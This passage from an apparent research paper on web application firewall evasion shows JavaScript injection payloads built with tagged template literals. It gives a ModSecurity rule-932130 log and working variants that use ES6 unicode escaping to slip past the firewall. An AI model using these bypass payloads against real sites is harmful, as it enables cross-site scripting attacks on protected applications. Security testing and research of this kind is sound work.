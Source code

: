 \subsubsection{Avoiding ()}
\label{sec:avoidingbypassA}
In the context of testing firewall evasion techniques, the author faced the question if it was possible to create payloads without  \verb|()|. Those payloads still need to be valid and bypass the waf.
Considering the bypassing payload from \ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals. This caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () blocked, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}`}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| was possible by using a form of unicode escaping in JavaScript that was introduced with ES6 and differs from the unicode escaping in JSON. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|. This made the payload bypass the ModSecurity firewall. The bypassing payload:

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using square bracket notation]
[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using dot notation]
[].constructor.constructor`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

It is conspicuous that the payload could bypass the firewall with only the later \verb|$| of the two placeholders: \verb|${expression}| escaped.
This seems to be a bug in the WAF or the ruleset.
It is also what enables the above payload to be valid.
A substitution of the earlier \verb|$| with an escaped variant is not possible.
JavaScript does not recognize the placeholder in the Template Literal without the explicit character \verb|$|.
Substitution of the second placeholder is possible because it happens inside a string containing the Tagged Template Literal.

